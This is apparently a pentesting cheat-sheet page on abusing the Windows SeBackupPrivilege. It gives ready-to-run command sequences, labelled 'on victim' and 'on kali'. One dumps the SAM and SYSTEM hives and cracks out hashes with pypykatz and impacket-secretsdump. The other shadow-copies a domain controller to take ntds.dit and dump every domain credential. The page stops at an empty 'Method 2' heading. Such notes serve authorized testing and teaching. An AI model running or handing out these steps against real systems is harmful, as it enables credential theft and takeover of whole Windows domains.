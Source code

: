 ## SeBackupPrivilege

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/" %}

#### Method 1

#### Standalone Windows Box

```
# on victim
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system

download sam
download system

# on kali
pypykatz registry --sam sam system
impacket-secretsdump -sam sam -system system LOCAL
```

#### Domain Controller

This privilege only allows you to make backups not copies

```
# on kali
nano pwn.dsh
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
unix2dos pwn.dsh

# on victim
cd C:\Temp
upload pwn.dsh
diskshadow /s pwn.dsh
robocopy /b z:\windows\ntds . ntds.dit

reg save hklm\system c:\Temp\system
cd C:\Temp
download ntds.dit
download system

# on kali
impacket-secretsdump -ntds ntds.dit -system system local
```

#### Method 2
